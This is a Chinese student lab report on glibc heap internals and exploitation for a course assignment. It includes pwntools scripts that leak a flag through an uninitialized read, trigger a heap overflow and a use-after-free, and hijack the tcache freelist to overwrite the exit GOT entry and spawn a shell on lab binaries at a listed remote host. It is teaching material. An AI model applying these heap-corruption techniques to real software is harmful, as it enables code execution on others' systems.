









# lab-03: 堆上漏洞及其利用

## 堆管理器基础

### Task1
> 阅读 example.c 代码，在报告中简述这个目录程序的逻辑；通过 make build 完成对程序的编译和 patch，提供 ldd 执行后的截图；(10 points)

`example.c` 样例程序的主要功能是通过自定义内存分配和释放钩子函数来演示如何拦截和处理 malloc 和 free 调用。程序使用 `__malloc_hook` 和 `__free_hook` 这两个函数指针，分别指向每次调用 malloc 和 free 时执行的函数。

1. `load_hooks` 函数将原本的 `__malloc_hook` 和 `__free_hook` 保存在 `old_malloc_hook` 和 `old_free_hook` 中，并将我们自定义的 `local_alloc_hook` 和 `local_free_hook` 函数加载到这两个钩子中，以便在内存分配和释放时执行额外的操作。

```c
void *old_malloc_hook, *old_free_hook;

static void load_hooks()
{
    old_malloc_hook = __malloc_hook;   // 保存原始的 malloc 钩子函数地址
    old_free_hook = __free_hook;       // 保存原始的 free 钩子函数地址
    __malloc_hook = local_alloc_hook;  // 将 malloc 钩子指向自定义的 local_alloc_hook
    __free_hook = local_free_hook;     // 将 free 钩子指向自定义的 local_free_hook
}

```

2. `local_alloc_hook` 和 `local_free_hook` 函数：

    - local_alloc_hook 是自定义的内存分配钩子函数：
        - 首先恢复原始的 malloc 和 free 钩子，以确保 malloc 的实际调用是通过系统的 malloc 函数进行的。
        - 然后调用 malloc 进行内存分配。
        - 使用 printf 输出分配信息，包括调用者地址、分配的内存大小和分配结果（即内存的地址）。
        - 最后，将钩子指针恢复为自定义的钩子函数，以便继续拦截后续的 malloc 调用。
    - local_free_hook 是自定义的内存释放钩子函数：
        - 首先恢复原始的钩子函数。
        - 然后调用 free 来释放内存。
        - 使用 printf 输出释放信息，包括调用者地址和释放的内存地址。
        - 最后，将钩子指针恢复为自定义的钩子函数。

3. prepare 函数：

    - `setvbuf(stdout, 0ll, 2, 0ll)` 和 `setvbuf(stdin, 0ll, 2, 0ll)` 用于将 stdout 和 stdin 设置为不缓存模式，确保每次读取和写入操作都立即生效。
    - `load_hooks()` 函数用于加载我们之前讨论的内存分配钩子，这样程序可以在每次调用 malloc 或 free 时打印调试信息。
    - `alarm(120)` 设置程序在 120 秒后自动触发一个超时信号，可能用于防止程序被无限期挂起或死循环。

4. `getline_wrapper` 函数：

    - `getline_wrap` 从文件描述符（fd）读取一行字符数据，并将其存储到 buf 中。该函数通过一个循环读取输入流中的每个字符，直到遇到换行符（\n）或达到了指定的最大字符数 max。这段代码模拟一个简化版的 `getline` 函数，通过底层的 read 系统调用来实现输入读取。

5. 用户信息以及操作

    - `user_info` 结构体用于存储用户的信息，包括用户名和密码。
    - `user_add` 添加用户，malloc 一个 user_info 结构体以及 intro 字段，并将其添加到用户列表中。
    - `user_del` 删除用户，首先检查用户是否存在，然后读入 password，若正确则释放用户的内存。
    - `user_edit` 编辑用户信息，首先检查用户是否存在，然后读入 password，若正确则调用 getline_wrap 读入新的 intro 信息。
    - `user_show` 显示用户信息，首先检查用户是否存在，然后读入 password，若正确则输出用户的信息。

6. 主函数

    - 主函数首先调用 `prepare` 函数，然后进入一个无限循环，每次循环中调用 `menu` 函数显示用户操作菜单，并根据用户的选择调用
    相应的函数。

编译和运行程序：

`make build` 编译 `docker run --rm -v ${PWD}:/usr/src/myapp -w /usr/src/myapp gcc:7.5.0 gcc -o example ./example.c`，生成 `example` 可执行文件。




### Task2

> 阅读和运行 test.py 代码，分析打印的 dump*.bin 的内容。要求类似示例图一样将所有申请和释放的对象标记出来，特别标注出 tcache 单向链表管理的对象）；（20 points）

运行 `test.py` 代码：







- 每段的开头有 `prev_size` 和 `size`
- 每个链表 fb 指向下一节点、bk 指回头部，表示 tcache 链表中的 next 和 prev 指针
- 后续内容表示结构体中储存的 name 和 password 等信息


### Task3
> 将 test.py 中注释的两行 handle_del 取消注释，再次运行，新产生的 dump*.bin 和之前的相比有何变化？多释放的属于 William 和 Joseph 的堆块由什么结构管理，还位于 tcache 链表上么？请复习课堂上的内容，在报告中进行回答；（10 points）

使用 git diff 查看两次运行的差异：



新 free 的堆块没有进入到 tcache 链表，这是因为 tcache 链表只有在 tcache 未满时才会存放 free 的堆块，否则会直接进入 fastbin 链表。tcache bin 一条链上最多有 7 个 free 的堆块，再 free 两个就会进入 fastbin 链表。

## 堆上常见漏洞

### Task1 未初始化

> 找到 uninit/uninit 中的未初始化读漏洞，在报告中给出分析；编写攻击脚本 ，完成对于堆上 flag 内容的窃取； (10 points)
> 远程环境位于 IP: 8.154.20.109, PORT: 10400

漏洞分析：

- 在 main 函数中，程序首先 malloc 了一个 flag 字符串并释放
- 在 user_add() 函数中分配用户信息结构体时，name、password、motto 等字段没有进行初始化清零
- 当使用 ser_show() 展示用户信息时，会直接输出这些未初始化的内存内容

攻击思路：

- 由于malloc分配的内存可能会重用之前释放的内存块
- 可以创建新用户，使其结构体分配在原 flag 内存位置
- 然后通过show功能读取未初始化的内存内容，获取 flag 残留数据

代码实现：

1. 用户相关函数：

```python
def AddUser(name, password, intro, motto):
    p.sendlineafter(b"> ", b"1")
    p.sendlineafter(b"name > ", name)
    p.sendlineafter(b"password > ", password)
    p.sendlineafter(b"introduction > ", intro)
    p.sendlineafter(b"motto > ", motto)
    p.recvuntil(b"at index ")
    return int(p.recvline().strip())

def ShowUser(index, password):
    p.sendlineafter(b"> ", b"3")
    p.sendlineafter(b"index > ", str(index).encode())
    p.sendlineafter(b"password > ", password)
    p.recvuntil(b"user name: ")
    name = p.recv(0x20)
    p.recvuntil(b"user motto: ")
    motto = p.recv(0x20)
    p.recvuntil(b"user intro: ")
    intro = p.recv(0x40)
    return name, motto, intro
```

2. 构造攻击：
    
```python
idx = AddUser(b"Anya1"*4, b"Reese"*4, b"A"*0x10, b"555555"*3)
name, motto, flag = ShowUser(idx, b"Reese"*4)
```

本地测试通过：



远程测试通过，得到 flag：`flag{hE4P_cAN_be_DIR7y_4s_5T4CK}`



### Task2 堆溢出

> 找到 overflow/overflow.c 中的堆溢出漏洞，编写攻击脚本触发该漏洞；（10 points）

在 user_edit 函数中存在堆溢出：当编辑用户信息时，向 intro 指针写入的长度(0x60)大于实际分配的内存大小(0x40)。

```py
# Create two adjacent users
idx1 = AddUser(b"Anyaa", b"Reese", b"intro1", b"motto1")
idx2 = AddUser(b"Meave", b"Weily", b"intro2", b"motto2")

# Check initial state
name, motto, intro = ShowUser(idx2, b"Weily")
print(f"Name: {name}\nMotto: {motto}\nIntro: {intro}")

# Construct overflow payload
payload = b"A" * 0x40
payload += p64(0x71)
payload += b"\x00" * 7
payload += b"OVERFLOW"
```



### Task3 Use After Free

> 找到 uaf/uaf 中的释放后使用漏洞，编写攻击脚本触发该漏洞；（10 points）

在 user_del 函数中存在释放后使用漏洞：当删除用户后，用户信息结构体的指针没有置空，导致在 user_show 函数中继续使用已释放的内存。

攻击思路：

1. 首先创建两个用户，每个用户的intro大小为32字节：
2. 删除这两个用户后，在堆上会有两个相邻的32字节的空闲块
3. 然后创建一个新用户，指定intro大小为96字节，96字节 = 32字节 × 3，这样新分配的intro会覆盖之前释放的两个32字节的块的空间，从而可能观察到之前释放的内存中的数据。

```python
# Create two users with same intro size
idx1 = AddUser(b"Anyaa", b"Rees", 32, b"!!!!!", b"*****")
idx2 = AddUser(b"Meave", b"Wily", 32, b"?????", b"#####")

# Delete both users
DeleteUser(idx1, b"Rees")
DeleteUser(idx2, b"Wily")

idx3 = AddUser(b"", b"pass", 96, b"", b"")

# Show the user to verify UAF
name, motto, intro = ShowUser(idx3, b"pass")
print(f"UAF result - Name: {name}, Motto: {motto}, Intro: {intro}")

p.interactive()
```

运行测试，如图，可以查看到已经删除的前两个用户的信息：



## 堆上利用

### Task1 overflow

> 利用 overflow/overflow.c 中的堆溢出漏洞，通过劫持 freelist 的方式（10 points），写 exit GOT 表数据将执行流劫持到 backdoor 函数，从而完成弹 shell，执行 flag.exe 取得 flag（5 points）
>   - 远程环境位于 IP: 8.154.20.109, PORT: 10401

攻击思路：

1. 创建 3 个用户结构，构造相邻堆块
2. 释放两个块(1 和 3)进入 freelist
3. 利用edit的堆溢出覆盖中间块 metadata
4. 修改 freelist 指向 exit 的 GOT 表位置
5. 再次分配时将获得指向 GOT 的块
6. 写入 backdoor 函数地址
7. 触发 exit 调用获取 shell

代码实现：

```python
idx1 = AddUser(b"user1", b"1111", b"", b"AAAA", b"aaaa")
idx2 = AddUser(b"user2", b"2222", b"", b"BBBB", b"bbbb") 
idx3 = AddUser(b"user3", b"3333", b"", b"CCCC", b"cccc") 

DeleteUser(idx1, b"1111")
DeleteUser(idx3, b"3333")

payload = b"\x00"*72 +b"\x71"+b"\x00"*7 + p64(elf.got["exit"])

# 修改 user2 的 intro 字段，并将溢出的 payload 数据写入其中。
# 将 exit 的 GOT 表项覆盖成指向 backdoor 函数的地址。
EditUser(idx2, b"2222", b"Anyaa", payload, b"b")

use = AddUser(b"", b"", b"", b"", b"") 
use = AddUser(p64(elf.sym["backdoor"]) , b"", b"", b"", b"") 

p.recvuntil(b"[ 5 ] leave\n> ")
p.sendline(b"9")

p.interactive()
```

- 首先创建 3 个用户，然后释放 1 和 3 号用户，构造相邻堆块。
- 修改 user2 的 intro 字段，并将溢出的 payload 数据写入其中。将 exit 的 GOT 表项覆盖成指向 backdoor 函数的地址。
- 再次调用 AddUser 函数，首先添加一个空的用户，然后添加一个新用户，用户名设置为 backdoor 函数的地址
- 第二次 AddUser 调用，覆盖堆上的某些结构或利用空闲块上的指针，从而实现对程序控制流的劫持。

### Task2 UAF

> 利用 uaf/uaf 中的释放后使用漏洞，通过类型混淆的利用方式构建任意地址读写原语（10 points），进而通过内存破坏实现弹 shell，执行 flag.exe 取得 flag；（5 points）
>   - 远程环境位于 IP: 8.154.20.109, PORT: 10402
>   - 注：相比于上个目标，这个程序开启了 RELRO 保护，故无法破坏 GOT 表内容；
>   - 提示：回到最开始的 example.c，位于 libc 内存中有其他的攻击目标可以作为写的对象来实现控制流劫持。

